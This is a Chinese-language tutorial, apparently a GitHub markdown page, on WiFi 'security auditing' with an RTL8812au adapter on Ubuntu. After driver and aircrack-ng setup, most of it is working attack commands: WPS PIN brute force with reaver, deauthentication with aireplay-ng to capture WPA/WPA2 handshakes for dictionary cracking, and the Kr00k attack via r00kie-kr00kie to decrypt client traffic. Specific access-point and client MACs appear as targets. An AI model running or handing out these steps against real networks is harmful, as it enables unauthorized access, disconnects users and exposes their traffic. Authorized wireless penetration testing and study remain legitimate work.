

# Ubuntu18使用RTL8812au进行WiFi安全审计

## 下载安装驱动

```bash
$ sudo apt-get update && sudo apt-get upgrade -y
$ git clone https://github.com/aircrack-ng/rtl8812au.git
$ cd rtl*
$ make && sudo make install
$ sudo modprobe 8812au
# 重启系统
$ ifconfig -a 
ens33: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.47.132  netmask 255.255.255.0  broadcast 192.168.47.255
        inet6 fe80::9c64:25c2:2c23:aae7  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:97:11:c0  txqueuelen 1000  (Ethernet)
        RX packets 813  bytes 888423 (888.4 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 397  bytes 45358 (45.3 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 277  bytes 21195 (21.1 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 277  bytes 21195 (21.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

wlx00c0caa47abf: flags=867<UP,BROADCAST,NOTRAILERS,RUNNING,PROMISC,ALLMULTI>  mtu 2312
        unspec 00-C0-CA-A4-7A-BF-30-3A-00-00-00-00-00-00-00-00  txqueuelen 1000  (UNSPEC)
        RX packets 150637  bytes 0 (0.0 B)
        RX errors 0  dropped 4  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

## 下载安装airmon-ng

```bash
$ sudo apt-get install aircrack-ng
```

## WPS测试

```bash
#网卡转换为minitor模式
sudo airmon-ng check kill
#重新启动网卡
sudo airmon-ng start wlan0
#监听附件的wifi信号
wash -i wlan0mon --ignore-fcs  #这里有时会报fcs错误,加上该选项即可，查看wps locked这一项，显示NO的都可以尝试
# 对目标进行暴力破解
reaver -i wlan0mon -b MAC -a -S -vv -d0 -c 1  		信号非常好
reaver -i wlan0mon -b MAC -a -S -vv -d2 -t 5 -c 1		信号普通
reaver -i wlan0mon -b MAC -a -S -vv -d5 -c 1			信号一般
reaver -i wlan0mon -b MAC -S -N -vv -c 4
reaver -i wlan0mon -b DC:EE:06:96:B7:B8 -S -N -vv -c 6
```


## WPA/WPA2暴力破解

```bash
$ sudo ifconfig wlx00c0caa47abf up
$ sudo rfkill block wifi
$ sudo rfkill unblock wifi
$ sudo airmon-ng check kill # 结束干扰进程
$ sudo airodump-ng wlx00c0caa47abf

```



```bash
# 中断扫描，使用aircrack-ng发送目标wifi与客户端设备断开命令，等待客户端重新连接时监听密码包
# 配置信道
$ sudo airmon-ng start wlx00c0caa47abf 3 # sudo iwconfig wlx00c0caa47abf channel 1
# sudo airodump-ng -c 频道 -w 文件保存 --bssid ap_mac wlx00c0caa47abf
$ sudo airodump-ng -c 1 -w handshark --bssid 7C:FC:3C:B8:0E:47 wlx00c0caa47abf
# 开始认证攻击
$ sudo aireplay-ng -0 0 -a 7C:FC:3C:B8:0E:47 -c 06:E7:12:31:05:D6 wlx00c0caa47abf
# 等待数据够多后，关闭监听模式
$ sudo airmon-ng stop wlx00c0caa47abf
# 使用字典暴力破解
$ sudo aircrack-ng -w 字典文件 抓包文件
```


问题：

扫5G：

默认是工作在2.4G频段下，无法搜索5G信号

1. 检查网卡支持的频段：

   ```bash
   $ iw list
   ......
   	Band 2:
   		Bitrates (non-HT):
   			* 6.0 Mbps
   			* 9.0 Mbps
   			* 12.0 Mbps
   			* 18.0 Mbps
   			* 24.0 Mbps
   			* 36.0 Mbps
   			* 48.0 Mbps
   			* 54.0 Mbps
   		**Frequencies:
   			* 5180 MHz [36] (20.0 dBm)
   			* 5200 MHz [40] (20.0 dBm)
   			* 5220 MHz [44] (20.0 dBm) (no IR)
   			* 5240 MHz [48] (20.0 dBm)
   			* 5745 MHz [149] (20.0 dBm)
   			* 5765 MHz [153] (20.0 dBm) (no IR)
   			* 5785 MHz [157] (20.0 dBm)
   			* 5805 MHz [161] (20.0 dBm)
   			* 5825 MHz [165] (20.0 dBm) (no IR)**
   ......
   
   ```

2. 开启扫描：

   ```bash
   $ sudo airodump-ng -C 5180-5825 wlx00c0caa47abf 
   
   Checking available frequencies, this could take few seconds.
   Done.
   
   ```

## kr00k攻击测试

Broadcom和Cypress受影响

```bash
# clone main repo
$ git clone https://github.com/hexway/r00kie-kr00kie.git && cd ./r00kie-kr00kie
# install dependencies
$ sudo pip3 install -r requirements.txt -i https://pypi.tuna.tsinghua.edu.cn/simple
# python3 r00kie-kr00kie.py -i wifi_card -b AP_BSSID -c client_MAC -l CHANNEL
$ sudo python3 r00kie-kr00kie.py -i wlan0 -b D4:38:9C:82:23:7A -c 88:C9:D0:FB:88:D1 -l 11
# python3 r00kie-kr00kie.py -p encrypted_packets.pcap # 解密流量包
$ sudo python3 r00kie-kr00kie.py -p encrypted_packets.pcap
```

